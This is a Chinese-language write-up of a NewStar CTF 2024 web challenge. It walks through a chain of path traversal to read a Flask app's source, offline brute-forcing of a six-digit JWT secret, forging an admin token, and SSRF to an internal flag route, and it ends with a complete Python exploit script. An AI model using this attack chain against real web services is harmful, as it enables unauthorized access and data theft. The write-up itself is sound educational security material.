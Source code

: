 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```

# 这照片是你吗

```html
<!-- 图标能够正常显示耶! -->
<!-- 但是我好像没有看到Niginx或者Apache之类的东西 -->
<!-- 说明服务器脚本能够处理静态文件捏 -->
<!-- 那源码是不是可以用某些办法拿到呢! -->
```

很明显的提示，能够获得静态文件，但是没有用常见的反代服务来区别静态文件和服务型路由。

服务端处理文件和路由的逻辑很有可能会有漏洞。

简单的测试就能知道是路径穿越+任意文件读

查看Response Header，能够认出来是Flask app，常用的flask主程序名为为app.py

> 路径穿越常用用../，意为当前文件夹的上一层。

本题将静态文件存储在了./static中，主程序在static外，那么使用`GET /../app.py`就可以拿到源码了。

> 本题的漏洞代码是send_file("./static/" + file)
> 与SQL注入一样，直接拼接用户可控制输入的字符串是大忌！

![发包获取源代码](/assets/images/wp/2024/week3/zhaopian_1.png)

很轻松的，我们获得了主程序的源代码。

审计源码，可以知道我们要用admin用户登录来进入面板。两种方法：获取密码或者伪造token

密码的长度

```python
base_key = str(uuid.uuid4()).split("-")
admin_pass = "".join([ _ for _ in base_key])
```

admin的密码长度是32个字符，而整个程序有登录次数限制，因此无法爆破密码来登录。

伪造token需要secret_key，查看生成逻辑：

```python
secret_key = get_random_number_string(6)
```

6位数字字符串，可以在数秒内完成爆破。

```python
users = {
    'admin': admin_pass,
    'amiya': "114514"
}
```

通过本段代码我们可以知道一个有效账户amiya，密码114514，通过发包登录我们可以获得一个有效的token，据此能在本地认证签名secret_key的有效性（因为目标主机有认证次数限制）。

> 用明文存密码也是大忌！安全的做法是存储哈希值，并且加入一定的salt。

爆破出secret_key，然后查看登录后的逻辑：

前端请求execute路由=>api路由，而api链接可控且没有校验，存在SSRF漏洞。

定位到源代码开头：

```python
from flag import get_random_number_string
```

这是出题人故意漏的信息，将函数写在了flag模块并import，提示查看flag.py

> python程序可以import同一目录下的py文件而不必编写__init__.py等标记模块的文件。
>
> 文件名为flag.py的程序，模块名为flag

```python
@get_flag.route("/fl4g")
#如何触发它呢?
def flag():
    return FLAG
```

Dockerfile（未给出）压根没有Expose出5001端口，不可能通过直接访问来得到flag，那我们的操作就很明确了：

利用`/execute`的SSRF漏洞让服务器自己访问`http://localhost:5001/fl4g`

`GET /execute?api_address=http://localhost:5001/fl4g`

写出exp：

```python
import time
import requests
import jwt
import sys

if len(sys.argv) < 2:
    print(f"Usage: python {sys.argv[0]} <url>")
    sys.exit(1)
url = sys.argv[-1]
def get_number_string(number,length):
    return str(number).zfill(length)
print("[+] Exploit for newstar-zhezhaopianshinima")
print("[+] Getting a valid token from the server")
LENGTH = 6
req = requests.post(url+"/login", data={"username":"amiya","password":"114514"})
token = req.cookies.get("token")
print(f"[+] Got token: {token}")
print("[+] Brute forcing the secret key")
for i in range(1000000):
    secret_key = get_number_string(i,LENGTH)
    try:
        decoded = jwt.decode(token, secret_key, algorithms=["HS256"])
        break
    except jwt.exceptions.InvalidSignatureError:
        continue
print(f"[+] Found secret key: {secret_key}")
fake_token = jwt.encode({'user': 'admin', 'exp': int(time.time()) + 600}, secret_key)
print(f"[+] Generated a fake token: {fake_token}")
print("[+] Getting the flag")
req = requests.get(url+"/execute?api_address=http://localhost:5001/fl4g", cookies={"token":fake_token})
print(f"[+] Flag: {req.text}")
```
